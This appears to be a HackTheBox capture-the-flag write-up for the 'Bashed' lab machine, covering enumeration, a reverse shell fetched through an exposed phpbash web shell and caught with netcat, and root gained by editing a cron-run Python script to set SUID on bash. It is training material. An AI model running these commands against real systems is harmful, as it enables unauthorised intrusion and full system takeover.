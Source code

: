 ```yaml
---
title: Bashed Writeup - HackTheBox
date: 2023-11-02 08:25
categories: [Writeup, HackTheBox]
tags: [linux, easy] # TAG names should always be lowercase
---
```


![NMAP](/assets/img/htb/Bashed/bashedhtb.png)

Hello, welcome to the Bashed Writeup from [HackTheBox](https://app.hackthebox.com/machines/Bashed).

## Enumeration

---

### NMAP Open ports

In first step, we are going to enumerate the list of open ports with NMAP.

![NMAP](/assets/img/htb/Bashed/nmap.png)

**Port 80:** HTTP

### Whatweb

![WhatWeb](/assets/img/htb/Bashed/whatweb.png)
**Apache**: 2.4.18

As we can see in the above image, we have a web server running on port 80, so lets take a look.

![Web](/assets/img/htb/Bashed/web.png)

We found **phpbash**, seems like its a tool actually developed in this server so lets take a look in github:
[PHPBash](https://github.com/Arrexel/phpbash)

> Phpbash is a standalone, semi-interactive web shell. It's main purpose is to assist in penetration tests where traditional reverse shells are not possible. The design is based on the default Kali Linux terminal colors, so pentesters should feel right at home.

In this case, i can imagine that we have somewhere a **phpbash.php** that maybe we can use, so lets use **gobuster** to enumerate directories.
![Gobuster](/assets/img/htb/Bashed/gobuster.png)

After enumerate some directories, we found in **/dev** two scripts in **PHP**:
![web](/assets/img/htb/Bashed/devweb.png)

Lets find out!

## Exploitation

Like we saw before, **phpbash.php** its a web shell, so lets try with **wget** download a reverse shell in PHP from our machine, in this case i will use PentestMonkey one.
[PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

We open a http server in the same directory as the Reverse Shell:

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### PHPBash

With **wget** im going to download the reverse shell from our machine.
![phpbash](/assets/img/htb/Bashed/phpbash.png)

### Shell as www-data

Now we start the netcat listener in port 443 and navigate to /uploads/ennove.php (Yes, incredible name for a shell...)

```bash
nc -nlvp 443
listening on [any] 443 ...
```

After we navigate to /uploads/ennove.php, we got a shell
![Reverse](/assets/img/htb/Bashed/reverse.png)

# Flag user

```bash
www-data@bashed:/var/www/html/dev$ cat / -name user.txt 2>/dev/null
/home/arrexel/user.txt
www-data@bashed:/var/www/html/dev$ cat /home/arrexel/user.txt
FLAG :D
```

## Privilege Escalation

### Shell as scriptmanager

As www-data, lets see our sudo privileges, in this case we can run any command as scriptmanager so lets spawn a bash.
![Reverse](/assets/img/htb/Bashed/shellasscriptmanager.png)

### Shell as root

After enumeration as scriptmanager, we found a folder **scripts** with a few files.

```bash
scriptmanager@bashed:/$ cd scripts
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager
drwxr-xr-x 23 root          root
-rw-r--r--  1 scriptmanager scriptmanager
-rw-r--r--  1 root          root
```

Lets see the files:

```bash
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!scriptmanager@bashed:/scripts
```

As we can see, **test.py** creates a **test.txt** and root is the owner but we can modify test.py, so probably who runs the python commands is root, so lets try to get permissions u+s in bash:

# Modified test.py

```bash
import os
os.system("chmod u+s /bin/bash")
```

After that, we try to run **test.py**, but **test.txt** is created as scriptmanager owner so maybe root somehow is running **test.py** (maybe a cronjob?), lets try a script to enumerate process:

```bash
#!/bin/bash
old_process=$(ps -eo command)
while true; do
        new_process=$(ps -eo command)
        diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -vE "procmon | command | kworker"
        old_process=$new_process
done
```

```bash
chmod +x procmon.sh
./procmon.sh

> /usr/sbin/CRON -f
> /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
> python test.py
< /usr/sbin/CRON -f
< /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
< python test.py
```

As we can see, **> python test.py** is being executed in a short period time, so lets wait and watch for permissions changes:

```bash
scriptmanager@bashed:/scripts$ watch -n 1 ls -la /bin/bash
```

After 1 minute:

```bash
scriptmanager@bashed:/scripts$ bash -p
bash-4.3# whoami
root
FLAG :D
```
